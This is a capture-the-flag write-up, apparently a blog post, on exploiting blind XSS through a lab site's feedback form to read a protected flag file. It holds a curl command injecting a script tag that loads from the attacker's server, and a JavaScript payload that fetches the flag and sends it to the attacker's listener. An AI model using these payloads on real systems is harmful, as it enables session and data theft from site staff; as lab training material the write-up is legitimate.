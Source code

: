 # id: 10.10.59.111

# hint

Can you read the flag at http://10.10.59.111:8080/flag.txt?

# try it out just now

┌──(root㉿docker-desktop)-[/]
└─# curl http://10.10.59.111:8080/flag.txt

<h1>401 Unauthorized</h1>

# capture the post message

http://10.10.59.111:8080/submit_feedback
![](https://velog.velcdn.com/images/agnusdei1207/post/e0dc890b-369c-4bb8-9cad-4ceda9ab9ea1/image.png)

```
POST /submit_feedback HTTP/1.1
Host: 10.10.59.111:8080
Content-Length: 14
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.10.59.111:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.59.111:8080/submit_feedback
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

feedback=asdad

# Blind XSS check

curl -X POST http://10.10.59.111:8080/submit_feedback -H "Content-Type: application/x-www-form-urlencoded" -H "Origin: http://10.10.59.111:8080" -H "Referer: http://10.10.59.111:8080/submit_feedback" --data "feedback=<script src="http://10.8.136.212:8000/"></script>"

# setting payload

```python
import urllib.parse

def url_encode(text: str) -> str:
    return urllib.parse.quote(text)

def url_decode(encoded_text: str) -> str:
    return urllib.parse.unquote(encoded_text)

original = "<script src="http://10.8.136.212:8000/"></script>"
encoded = url_encode(original)
decoded = url_decode(encoded)

print("original:", original)
print("encoded:", encoded)
print("decoded:", decoded)

```

# success the blind XSS

![](https://velog.velcdn.com/images/agnusdei1207/post/b5252105-4522-428d-a133-2239d228ac67/image.png)

# starting the actual blind XSS phase now

python3 -m http.server 8000

<script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://<YOUR-IP-ADDRESS-tun0>:8000/?flag=' + encodeURIComponent(data));
    });
</script>
